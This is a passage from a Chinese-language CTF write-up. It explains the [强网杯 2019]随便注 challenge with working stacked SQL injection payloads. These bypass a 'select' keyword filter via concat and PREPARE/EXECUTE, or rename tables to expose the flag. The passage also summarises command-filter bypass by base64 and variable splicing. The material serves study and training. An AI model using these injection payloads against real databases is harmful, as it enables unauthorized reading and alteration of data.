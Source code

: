 
### 总结：

使用到了命令绕过、内联执行等技术，参考题解中的ab变量使用进行绕过字符匹配或使用base64编码绕过明文匹配

---

## [强网杯 2019]随便注

### 题解：

由于select关键字被过滤，故使用堆叠注入，通过一步步的查询可以找到flag算在的位置为1919810 table中的一个column，通过使用concat构造动态查询获取flag具体内容

[BUUCTF [强网杯 2019]随便注 1（两种方法）-CSDN博客](https://blog.csdn.net/m0_62879498/article/details/123292860)

给出的答案如下：

```
-1';use supersqli;set @sql=concat('s','elect flag from `1919810931114514`');PREPARE stmt1 FROM @sql;EXECUTE stmt1-- q
```

通过自己尝试仿照答案实现的注入如下：

```
1';use supersqli;set @tmp=concat('s','elect flag from `1919810931114514`');PREPARE temp from @tmp;EXECUTE temp ;
```

或是通过修改表名的操作实现：

```
1';rename table words to word2;rename table `1919810931114514` to words;

ALTER TABLE words ADD id int(10) DEFAULT '12';

ALTER TABLE words CHANGE flag data VARCHAR(100);-- q
```

然后通过构造1' or 1=1;实现

### 总结：

其中set @变量名= concat这一步操作中变量一定是以@开头的，并且在每一个堆叠的语句后面都要加上;进行分割

对于纯数字或是不符合命名标准的表名要加上``进行区分

---

## [极客大挑战 2019]LoveSQL

### 题解：
